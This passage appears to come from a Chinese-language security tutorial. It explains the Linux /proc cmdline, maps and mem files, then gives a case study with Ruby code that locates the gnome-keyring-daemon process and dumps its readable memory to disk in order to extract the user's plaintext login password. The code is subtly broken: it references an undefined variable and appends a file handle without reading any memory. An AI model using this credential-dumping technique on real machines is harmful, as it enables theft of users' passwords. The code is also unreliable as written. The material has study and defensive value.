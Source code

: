    +   *cmdline* 文件保存了进程的完整命令行。

1.  **获取 PID 映射：** `/proc/\[PID\]/maps`

    +   *maps* 文件包含当前映射的内存区域及其访问权限。

1.  **获取进程内存页：** `/proc/\[PID\]/mem`

    +   *mem* 是一个文件，可用于通过该文件访问进程内存的页面

#### 案例研究

假设我们想要转储 `gnome-keyring-daemon` 进程的内存到磁盘，以提取存储在内存中的登录用户密码，因为它是以纯文本形式存储的。此外，我们知道它在内存中出现在 "libgck-1" 或 "libgcrypt" 字符串之后。我们将对其进行分割，然后将其拼接在一起。

**获取进程 ID（PID）**

```
@pids = []
Dir.glob('/proc/*/cmdline').each do |cmdline_file|
  processes_name.each do |process|
    if File.read(cmdline_file).include? "gnome-keyring-daemon"
      @pids << cmdline_file.split('/')[2].to_i  # get the pid number from proc/nnn/cmdline
    end
  end
end 
```

**获取 PID 映射：**

```
@pids_maps = []
@pids.each do |pid|
  # Open and parse maps file for each pid
  File.readlines("/proc/#{pid}/maps").each do |line|
    address, permissions = line.split(' ').first(2)
    # Find addresses in readable process memory pages
    if permissions.match(/^r.*/)
      # Find where pages starts and ends to read, no need to dump the whole memory.
      memory_start, memory_stop = address.split('-').map{|r| r.to_i(16)}
      chunk_size = memory_stop - memory_start
      @pids_maps << {pid: pid, memory_start: memory_start, memory_stop: memory_stop, chunk: chunk_size}
    end
  end
end 
```

**获取进程内存页：**

```
memory_dump = ''

@pids_maps.each do |pid|
  chunk_pointer = File.open("/proc/#{pid[:pid]}/mem", 'rb')     # Open mem file
  chunk_pointer.seek  pid[:memory_start]                        # put reading pointer where page starts
  memory_dump << chunk_pointer
end

File.open('gnome-keyring.dump', 'wb') {|f| f.print memory_dump} # Write dump to the desk as binary 
```
